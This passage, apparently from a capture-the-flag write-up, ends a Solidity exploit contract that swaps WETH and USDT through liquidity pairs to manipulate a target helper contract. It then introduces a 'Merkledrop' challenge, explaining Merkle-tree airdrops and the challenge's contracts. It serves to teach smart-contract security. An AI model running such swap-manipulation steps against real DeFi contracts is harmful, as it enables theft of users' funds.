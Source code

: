 ```solidity
            reserveUSDC
        );
        weth.deposit{value: 10 ether}();
        weth.transfer(address(pair), 10 ether);
        pair.swap(usdcAmount, 0, mcHelper, "");

        (uint112 reserveWETH2, uint112 reserveUSDT, ) = pair2.getReserves();
        uint256 usdtAmount = router.getAmountOut(
            1 ether,
            reserveWETH2,
            reserveUSDT
        );
        weth.deposit{value: 1 ether}();
        weth.transfer(address(pair2), 1 ether);
        pair2.swap(0, usdtAmount, address(this), "");

        usdt.approve(mcHelper, usdt.balanceOf(address(this)));
        IMCHelper(mcHelper).swapTokenForPoolToken(
            1,
            address(usdt),
            usdt.balanceOf(address(this)),
            0
        );
    }
}
```

## Merkledrop

> Were you whitelisted? 

Merkledrop is a popular technique of airdropping tokens. It requires building a [Merkle tree](https://en.wikipedia.org/wiki/Merkle_tree)
where leaves store information about user addresses and amounts of tokens they're eligible for. Leaves are then grouped
in pairs and hashed. Their hashes are grouped in pairs and hashed again, and so on until there's one root hash.
Such a tree can be disclosed to anyone, and still there's no risk of modifying its data: the consistency is guaranteed
by hashing. It's also easy to prove that you're eligible for an airdrop:
1. There needs to be a leaf with your address and amount.
1. You need to provide the path from your leaf to the root hash. Specifically, you'll need to proved the other hashes
in each of the pairs on each level of the tree.

In this challenge, you get:
1. `MerkleDistributor` contract that handles the claiming logic: it takes index, account, amount, and an array of proofs
from users, verifies them, keeps record of claimed tokens (indexes), and releases tokens. A drop can be claimed only
once.
1. `MerkleProof` contract that actually verifies proofs.
1. `tree.json` with a Merkle tree containing 64 leaves (tuples of: index, account, amount, and proof array).
